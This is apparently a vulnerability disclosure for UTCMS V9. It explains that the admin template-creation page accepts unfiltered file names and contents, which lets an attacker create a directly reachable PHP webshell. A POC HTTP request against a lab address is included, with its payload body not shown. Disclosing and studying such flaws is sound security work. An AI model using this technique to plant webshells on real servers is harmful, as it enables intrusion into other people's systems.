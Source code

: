 # Vendor

HuangDou

# Product

UTCMS

# version

 V9

# Download 

https://gitee.com/usualtool/ut-cms

# Vulnerability

Arbitrary file creation

# Description

In the background page of UTCMS, page templates can be created, but the page does not filter the name and content of the template, allowing attackers to directly create a Webshell with the php suffix.

# Analysis

1. The app/modules/ut-template/admin/template_creat.php page can be used to create templates, but there are no filtering rules for the created content and the name of the template file.
<img width="1521" alt="image" src="https://github.com/user-attachments/assets/aa7c229f-478b-4c4f-856a-ab1d9a2d3e06">

2. The name of the Webshell is passed in the "page" parameter, and the content of the Webshell is passed in the "content" parameter.
<img width="1447" alt="image" src="https://github.com/user-attachments/assets/80a09fa5-979f-4450-aefc-e656a262929d">

3. The created files have no routing restrictions and can be accessed directly.
<img width="727" alt="image" src="https://github.com/user-attachments/assets/c98ccf8a-9131-43f2-9ecf-9e5713f9af25">
<img width="655" alt="image" src="https://github.com/user-attachments/assets/ca72c2ad-9d53-465b-a20d-babd752023d6">


# POC
```
POST /app/dev/?m=ut-template&p=template_creat&do=save HTTP/1.1
Host: 192.168.17.24
Content-Length: 95
Cache-Control: max-age=0
Origin: http://192.168.17.24
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.17.24/app/dev/?m=ut-template&p=template_creat.php
Accept-Encoding: gzip, deflate
```